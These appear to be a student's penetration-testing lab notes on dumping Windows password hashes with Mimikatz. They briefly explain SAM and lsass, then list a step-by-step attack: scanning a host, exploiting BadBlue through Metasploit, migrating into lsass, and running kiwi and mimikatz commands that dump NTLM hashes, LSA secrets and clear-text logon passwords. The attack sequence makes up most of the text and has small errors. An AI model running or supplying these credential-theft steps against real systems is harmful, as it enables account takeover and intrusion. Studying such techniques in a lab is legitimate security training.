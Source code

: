 Dumping hashes with mimikatz
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy .It allows for the extraction of clear-text passwords,hashes and kerberos tickets form memory
- The sam (Security Account Manager) database,is a database file on Windows system that stores hashed user passwords
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached
- We can utilize the pre-compiled mimikatz executabl,alternatively,if we have access to a meterpreter sessions on a Windows target,we can utilize the inbuilt meterpreter extension Kiwi.
#### Note
Mimikatz will required elevated privileges in order to run correctly.

#### Exploit
- nmap -sV 10.2.18.199
- service postgresql start
- msfconsole
- search badblue [ as service running on badblue]
- use 1
- set everything requires
- this will give us meterpreter session
- pgrep lsass
- migrate 788 [ 788 found from previous command,this will give us highest authority NT AUTHORITY\SYSTEM ]
- load kiwi
- ? [ help menu for meterpreter ]
- creds_all [ retrieve all the credentials ]
- lsa_dump_sam [ downlaod all NTLM hashes ]
- lsa_dump_secrets 
- now using same meterpreter session go to C:\\
- mkdir Temp [ Create Temp directory ]
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe [ upload the mimikatz file ]
- shell [ for getting a shell ]
- .\mimikatz.exe [ this will give us mimikatz terminal ]
- privilege::debug [ for checking privileges,if it return privileges 20 ok,then privileges are ok ]
- lsadump::sam [ this will dump hashes,it requires to session running of wiki ]
- sekurlsa:logonpasswords [ this will also show the passwords ]

